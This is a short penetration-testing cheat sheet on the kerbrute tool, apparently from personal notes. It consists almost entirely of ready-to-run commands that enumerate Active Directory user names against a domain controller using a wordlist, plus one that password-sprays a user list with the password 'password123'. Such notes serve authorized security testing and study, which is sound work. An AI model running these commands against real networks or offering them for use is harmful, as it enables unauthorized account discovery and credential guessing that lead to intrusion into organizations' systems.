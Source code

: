 # kerbrute
https://github.com/ropnop/kerbrute

## enumerate users using wordlist
```bash
kerbrute userenum --dc $IP -d DOMAIN.local $FILE
kerbrute -users /usr/share/seclists/Usernames/Names/names.txt -dc-ip 10.11.1.20 -domain svcorp.com
```

## password spray users from user list file
```bash
kerbrute passwordspray --dc $IP -d DOMAIN.local users password123
```
